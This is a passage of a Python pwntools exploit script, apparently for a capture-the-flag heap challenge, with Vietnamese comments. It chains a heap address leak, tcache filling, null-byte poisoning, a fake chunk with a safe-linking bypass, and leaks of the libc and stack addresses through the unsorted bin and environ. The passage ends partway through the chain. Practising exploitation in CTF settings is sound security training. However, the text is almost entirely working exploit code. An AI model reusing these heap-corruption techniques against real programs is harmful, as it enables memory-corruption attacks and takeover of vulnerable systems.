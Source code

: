 ```python
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'Index: ', str(idx))


add(0,0x50,b'A'*0x50,0x50,b'a'*0x50) #a2a0 #a300
edit_content(0,0x100,b'b'*160) #free a300 #a360
show(0)
p.recvuntil(b'A'*0x50)
heap_leak = u64(p.recv(6)+b'\0\0')
heap_base = heap_leak - 0x360
info("heap leak: " + hex(heap_leak))
info("heap base: " + hex(heap_base))

# làm đầy tcache
size = 0x120
add(1,size,b"aaaa",size,b"bbbb") #a470 #a5a0
add(2,size,b"cccc",size,b"dddd") #a6d0 #a800
add(3,size,b"hlaan",size,b"hlaan") #a930 #aa60
add(4,size,b"a",size,b"a") #ab90 #acc0

delete(1)
delete(2)
delete(3)
delete(4)

# tạo fake chunk 

add(1,0x50,b'aaaa',0x50,b'b') #a300 #ab90
edit_title(0,b'a'*0x50) #a2a0 #poison NULL
edit_content(1,0x100,b'AAAA') #adf0
delete(0)
payload = b'A'*0x48 + p64(0x61) # set size 0x61 to a350
edit_title(1,payload) #a300



#ptr >> 12 ^ addr
need = heap_base+0x350
ptr = heap_base+0x300
payload = (ptr >> 12) ^ need
edit_title(1,p64(payload)[0:6]+b'a')
edit_title(1,p64(payload)[0:6])
add(2,0x50,b'cccc',0x50,b'dddd')
payload = p64(heap_base+0xc60+0x10) # addr ubin(ab90) + 0x60 + 0x80
add(3,0x50,payload,0x70,b'a')
show(1)

p.recvuntil(b'Content: ')
libc_leak = u64(p.recv(6)+b'\0\0')
libc.address = libc_leak - 0x1f6ce0
info('libc leak: ' + hex(libc_leak))
info('libc base: ' + hex(libc.address))

environ = libc.sym['environ']
edit_title(3,p64(environ)[0:6]) #350
show(1)
p.recvuntil(b'Content: ')
stack_leak = u64(p.recv(6)+b'\0\0')
info("stack leak: " + hex(stack_leak))

leak_main = stack_leak-0x110
edit_title(3,p64(leak_main)[0:6]) #350
show(1)
```